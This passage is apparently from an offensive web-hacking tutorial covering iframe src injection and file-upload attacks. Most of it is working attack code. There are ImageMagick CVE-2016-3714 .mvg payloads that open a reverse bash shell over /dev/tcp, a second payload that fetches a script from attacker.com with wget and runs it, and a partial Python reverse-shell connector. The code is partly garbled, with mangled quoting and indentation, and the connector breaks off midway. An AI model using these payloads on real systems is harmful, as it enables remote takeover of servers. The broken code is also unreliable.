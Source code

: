 Iframe injection happens when we are able to replace the value of ‘src’ in the Iframe with a file or URL of our choice to display a page belongs to us.

```
[http://192.168.211.131/ page.php?ParamUrl=file.txt&ParamWidth=1000&ParamHeight=250]
we can make ParamUrl=’http://[our-ip]
```

#### File Upload Vulnerabilities

Usually upload vulnerabilities allow the attackers to upload and execute arbitrary files. As an attacker, if a site has a file upload vulnerability you can upload any reverse shell and you will get a connection back to your attacker machine. **Example Exploiting image converters** Image converters some of the use the ImageMagic to convert images. There was a popular vulnerability released in 2016 that allows for file upload and RCE \[ CVE-2016-3714]. Simply we create a \[.mvg] file which is the official extension used by ImageMagic and put the below content \[1] returns bash shell

```
nano payload.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|setsid /bin/bash -i >/dev/tcp/ip/port 0<&1 2>&1")''")'
pop graphic-context
```

\[2] returns python shell

```
nano payload.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://target.com/image.jpg"|wget http://attacker.com/payload.py 
-o /tmp/payload.py && python /tmp/payload.py ip listenerport")'
pop graphic-context
```

\[payload.py content is below]

```python
#!/usr/bin/env python
"""
back connect py version,only linux have pty module
code by google security team
"""

import sys,os,socket
shell = "/bin/sh"

def usage(name):
    print 'python reverse connector'
    print 'usage: %s <ip_addr> <port>' % name


def main():    
if len(sys.argv) !=3:  
     usage(sys.argv[0])   
     sys.exit()

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        s.connect((sys.argv[1],int(sys.argv[2])))
        print 'connect ok'
    except:
        print 'connect faild'
        sys.exit()

[...]

```